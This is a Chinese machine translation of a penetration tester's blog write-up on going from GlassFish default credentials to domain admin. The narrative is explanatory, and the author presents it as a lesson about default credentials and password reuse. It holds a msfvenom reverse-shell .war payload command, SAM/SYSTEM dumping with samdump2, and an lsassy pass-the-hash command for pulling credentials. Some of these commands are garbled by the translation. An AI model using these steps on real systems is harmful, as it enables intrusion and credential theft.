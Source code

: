 # 3 小时后域名管理受损

> 原文：<https://infosecwriteups.com/domain-admin-compromise-in-3-hours-5778902604c9?source=collection_archive---------0----------------------->

大家好；我希望你喜欢我之前关于“[我如何在 30 秒](https://popalltheshells.medium.com/i-obtained-admin-access-via-account-activation-link-in-30-seconds-dd7f115ae1d2)内获得管理员权限”的博文——所以今天我给你带来另一个我最近发现的 ***关键*** 发现；这说明了**更改默认凭证**和**密码重用**的重要性。

—三个小时的列举和开发—

首先，我们都喜欢一些枚举。通过对目标进行简单的 nmap 扫描，我发现了一个有趣的应用服务器，名为**Sun GlassFish Enterprise Server**。经过一些调查和研究，我发现这个应用程序负责在企业环境中部署 web 应用程序。哇哦。好了，有了这些信息，我们知道这台服务器负责部署公司的至少一些 web 应用程序。通过使用我们的受信者 Google，我们可以发现 Sun GlassFish 的默认凭证是 **admin** ，密码是 **adminadmin。**有了这个新发现的信息；我能够获得对负责在客户环境中部署 web 应用程序的应用程序的管理权限。

对我来说最突出的一点是这个应用程序需要**。war** 文件；它负责分发 JAR 文件、JavaServer 页面、Java Servlets、Java 类和其他构成 web 应用程序(Wikipedia)的文件的集合。

![](img/3c5004093880f39c8f352cf1b458096c.png)

你可能知道也可能不知道 **msfvenom** 可以造一个**。战争**逆转 HTTPS 有效载荷，我就是这么做的。

> MSF venom-p<payload>LHOST =<ip>LPORT = 443-f war > payload . war</ip></payload>

一旦我的恶意 war 文件被创建，我们需要将它上传到应用程序并“部署”它以触发受影响的服务器执行有效负载；同时，我在我的攻击机器上设置了一个监听器。

![](img/05941fe35661ac9b1e9b371dd339dcc3.png)

一旦部署，我们将获得一个外壳。

![](img/79c7422a5a986f1c64dc83715655e5ac.png)

运行“whoami”命令始终是一个好习惯(当您有 RCE 时)。这将显示您在该系统上拥有哪些特权。在这种情况下；我非常幸运。

![](img/f0062be5bc592e1cd5bf63bc0e35722b.png)

现在我们有了 NT 系统特权，我们几乎拥有了这个系统，可以做任何我们想做的事情。下一步是创建一个本地用户，并将该用户添加为本地管理员；通过这样做，我能够使用我新创建的本地管理员帐户 RDP 到受影响的服务器。

这就是了。

![](img/8355652da581e6aacbebe011d27c0c5f.png)

就现在；我们只有一个本地管理员帐户，我们如何利用它在网络中横向移动？嗯，有很多方法可以做到这一点；但是我用了我认为最简单的方法(不是 mimikatz，因为我不想触发警报)。

我想到的第一件事是获取 SAM 和系统文件的副本，并使用一个名为 **samdump2** 的工具来获取所有其他本地帐户的 NTLM 哈希。然而，使用 Windows GUI 复制 SAM 和系统文件有时不起作用(当时对我不起作用)。

这就是命令行发挥作用的地方；在 CMD 以管理员身份打开的情况下，我能够输入以下命令来转储 SAM 和系统文件。

![](img/6c131c4d61691805b1a48d20f2ac7634.png)

一旦完成，我就将这些文件过滤到我的 Kali linux 中并运行

> **samdump2 系统 SAM**

作为回报，给了我本地管理员账户的散列。

![](img/bbee4047a0294ef1e6d84a6bf1d437b8.png)

—密码重复使用是一件常见的事情，伙计们—

现在我们有了管理员帐户的 NTLM 散列，系统管理员为他们的 DC 和环境中的其他服务器重用相同密码的可能性有多大？

如果其他服务器有相同密码的管理员帐户，在我的 Kali 上使用诸如 **lsassy** 这样的工具允许我利用管理员哈希来转储其他用户的哈希和明文密码的 lsass 进程。

> **lsassy<target IP/RANGE>-u USER-m proc dump-H<has H value>-O proc dump _ path =<到 procdump64.exe 的路径>**

幸运的是，其中一个服务器明文保存了一个用户的凭证；哪个属于**域管理员**组

![](img/95d0fcb0e57fee8eb2ea39cc7701b09d.png)

一旦这已经完成；接下来的步骤是清理工件，在网络中横向移动，并暴露可能“敏感”的文件，作为展示使用默认凭证和密码重用的影响的最后尝试。

黑客快乐！
